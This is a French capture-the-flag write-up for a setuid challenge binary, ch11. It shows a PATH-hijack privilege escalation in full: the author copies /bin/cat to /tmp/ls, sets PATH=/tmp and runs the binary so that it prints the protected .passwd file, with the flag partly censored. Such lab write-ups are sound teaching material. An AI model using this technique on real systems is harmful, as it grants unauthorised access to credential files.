 En listant le répertoire on remarque qu’on possède l’attribute `s` sur l’exécutable `ch11`.
Ce qui veut dire qu’on le lance avec les droits de l’owner, qui est `app-script-ch11-cracked`, soit le même owner que le fichier `.passwd`.
```
app-script-ch11@challenge02:~$ ls -la
total 24
dr-xr-x---  2 app-script-ch11-cracked app-script-ch11         4096 Aug 11  2015 .
drwxr-xr-x 14 root                    root                    4096 Nov 17 21:47 ..
-r--r-----  1 app-script-ch11-cracked app-script-ch11-cracked   14 Feb  8  2012 .passwd
-r-sr-x---  1 app-script-ch11-cracked app-script-ch11         7160 Aug 11  2015 ch11
-r--r-----  1 app-script-ch11         app-script-ch11          153 Aug 11  2015 ch11.c
```
Afin d’exécuter `cat` à la place de `ls` il suffit de copier l’exécutable dans `/tmp`
```
app-script-ch11@challenge02:~$ cp /bin/cat /tmp/ls
```
puis de changer la valeur de la variable d’environnement `PATH`
```
app-script-ch11@challenge02:~$ PATH=/tmp
app-script-ch11@challenge02:~$ echo $PATH
/tmp
```
Donc lorsque on exécutera une nouvelle fois le fichier `ch11` il lancera le programme `/tmp/ls` qui est une copie de `/bin/cat` et affichera donc le mot de passe !
```
app-script-ch11@challenge02:~$ ./ch11
!oPe[... flag censuré ...]5
```
